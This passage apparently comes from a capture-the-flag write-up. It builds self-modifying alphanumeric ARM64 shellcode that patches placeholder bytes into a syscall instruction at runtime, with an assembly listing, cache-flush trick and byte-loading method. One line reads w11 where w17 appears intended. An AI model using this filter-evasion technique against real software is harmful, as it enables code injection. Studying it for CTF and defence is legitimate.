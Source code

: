 The workaround is that we send `b'! AA'` as placeholder and dynamically change `b'AA'` into `b'\x00\xd4`. To achieve this, we observe that the registers `x0` and `x1` always point to our shellcode. Therefore, we can use `strb w??, [x1, x??]` or `strh w??, [x1, x??]` to dynamically modify our shellcode.

Note that due to the mechanism of instruction cache and data cache, we have to put a branch instruction (not taken) after we finish modifying the shellcode. Otherwise, the instruction cache will not be flushed and the CPU still sees the old placeholders. The branch instruction we use is `cbnz w26, 0x40404`.

##### Loading an arbitrary integer into a register

Let's say the `svc #257` instruction is at the 64th~67th byte of our shellcode, and we want to use `strh w9, [x1, x25]` to replace the 67th byte. That is, `w9` should be `0xd4` and `w25` should be `0x43`. To achieve this, we find [this paper](https://arxiv.org/pdf/1608.03415.pdf), whose section 4.1.2 gives us a great hint. We come up with the following shellcode:


```
/* w26 is always 0 by our observation */
adds w17, w26, #2460
subs w9, w17, #2248 /* w9 = 0xd4 */
adds w17, w26, #2131
subs w25, w11, #2064 /* w25 = 0x43 */
strb w9, [x1, x25]

cbnz w26, 0x40404 /* branch instruction for i-cache flushing */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */
cbnz w26, 0x40404 /* act as nop */

/* svc #257 */ /* below is the 64th~67th byte */
.inst 0x41413021  /* the two 0x41 is the placeholder */

```

As a check, the assembled machine code is `b'Qs&1)"#qQO!1yA q)h98:  5:  5:  5:  5:  5:  5:  5:  5:  5:  5:  5!0AA'`, which is alphanumeric. The above shellcode can change the 67th byte from `b'A'` to `b'\xd4'`. Read the field specification of `adds` and `subs` machine code. It should be straightforward to construct a alphanumeric `adds` and `subs` pair that loads arbitrary byte into a register.

To sum up, we have a powerful technique that can dynamically modify our shellcode. This means we can execute almost any shellcode we want!

#### Optimization

Everything looks so nice ... except that we have a 280 byte limit. Though it seems we can execute arbitrary shellcode, dynamically modify a single byte costs 5 instructions in the previous demonstration. That's why we still need a lot of manual optimization to make our shellcode more compact.
